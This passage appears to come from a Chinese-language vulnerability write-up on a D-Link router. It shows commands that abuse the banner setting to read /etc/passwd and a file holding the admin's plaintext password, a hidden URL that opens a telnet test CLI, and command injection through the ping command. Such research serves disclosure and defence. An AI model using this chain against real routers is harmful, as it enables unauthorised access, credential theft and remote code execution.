 ```
         \__\/         \__\/         \__\/
 -----------------------------------------------------
 BARRIER BREAKER (%C, %R)
 -----------------------------------------------------
  * 1/2 oz Galliano         Pour all ingredients into
  * 4 oz cold Coffee        an irish coffee mug filled
  * 1 1/2 oz Dark Rum       with crushed ice. Stir.
  * 2 tsp. Creme de Cacao
 -----------------------------------------------------

User Access Verification

Password:
Router&gt; enable
Password:
Router# configure terminal
Router(config)# banner motd file /etc/passwd
Router(config)# exit
Router# exit
Connection closed by foreign host.
```

使用telnet再次登录，就会发现，登录提示的banner已经把/etc/passwd文件显示出来了。在/etc/passwd中的密码是以md5的形式保存的，有能力的师傅可以尝试解出来，但是，admin的明文账号密码是被保存在/var/2860_data.dat文件中的，那么设置banner到这个文件就可以成功读取到admin的明文密码，为下一步的认证RCE做准备。

这个时候访问https://&lt;router_ip&gt;/start_telnet开启路由器的测试CLI，这个页面访问的结果返回是404，不用担心，已经成功开启了设备的telnet了。然后可以使用上一步得到的admin账号密码登录，然后也可以看到，在ping那个功能处存在命令注入。

```
# oneshell @ LAPTOP-M8H23J7M in ~ [14:54:22] C:1
$ telnet X.X.X.X
Trying X.X.X.X...
Connected to X.X.X.X.
Escape character is '^]'.
D-Link login: admin
Password:
libcli test environment

router&gt; help

Commands available:
  help                 Show available commands
  quit                 Disconnect
  history              Show a list of previously run commands
  protest              protest cmd
  iwpriv               iwpriv cmd
  ifconfig             ifconfig cmd
  iwconfig             iwconfig cmd
  reboot               reboot cmd
  brctl                brctl cmd
  ated                 ated cmd
  ping                 ping cmd

router&gt; ping -c 1 8.8.8.8.;uname -a
ping: bad address '8.8.8.8.'
Linux D-Link 3.10.14+ #1 SMP Fri Aug 14 18:42:10 CST 2020 mips GNU/Linux
```
